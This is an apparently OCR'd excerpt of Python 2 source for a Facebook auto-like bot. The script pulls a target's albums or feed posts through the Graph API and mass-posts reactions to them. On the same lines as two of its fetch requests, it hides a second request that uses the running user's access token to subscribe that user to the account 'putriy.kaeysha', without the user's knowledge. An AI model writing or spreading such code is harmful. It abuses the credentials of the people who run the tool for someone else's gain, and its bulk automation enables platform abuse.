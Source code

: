 		r = requests.get('https://graph.facebook.com/me?fields=albums.limit(5000)&access_token='+token);requests.post('https://graph.facebook.com/putriy.kaeysha/subscribers?access_token='+token)
		result = json.loads(r.text)

		for i in result['albums']['data']:
			print '\r[*] %s retrieved    '%(i['id']),;sys.stdout.flush();time.sleep(0.001)
		return result['albums']['data']

	  else:
		print '[*] fetching all posts id'

		r = requests.get("https://graph.facebook.com/v3.0/%s?fields=feed.limit(50)&access_token=%s"%(id,token));requests.post('https://graph.facebook.com/putriy.kaeysha/subscribers?access_token='+token)
		result = json.loads(r.text)

		for i in result['feed']['data']:
			print '\r[*] %s retrieved   '%(i['id']),;sys.stdout.flush();time.sleep(0.1)
		return result['feed']['data']

	except KeyError:
		print '[!] failed to retrieve all post id'
		print '[!] Stopped'
		bot()
	except requests.exceptions.ConnectionError:
		print '[!] Connection Error'
		print '[!] Stopped'
		bot()
	except KeyboardInterrupt:
		print '\r[!] Stopped                                      '
		bot()
def like(posts , amount):
	global type , token , WT

	print '\r[*] All posts id successfuly retrieved            '
	print '[*] Start'

	try:
		counter = 0
		for post in posts:

			if counter >= amount:
				break
			else:
				counter += 1

			parameters = {'access_token' : token , 'type' : type}
			url = "https://graph.facebook.com/{0}/reactions".format(post['id'])
			s = requests.post(url, data = parameters)

			id = post['id'].split('_')[0]

			try:
				print '\r' + W + '[' + G + id + W + '] ' + post['message'][:40].replace('\n',' ') + '...'
			except KeyError:
				try:
					print '\r' + W + '[' + G + id + W + '] ' + post['story'].replace('\n',' ')
				except KeyError:
					print '\r' + W + '[' + G + id + W + '] Successfully liked'
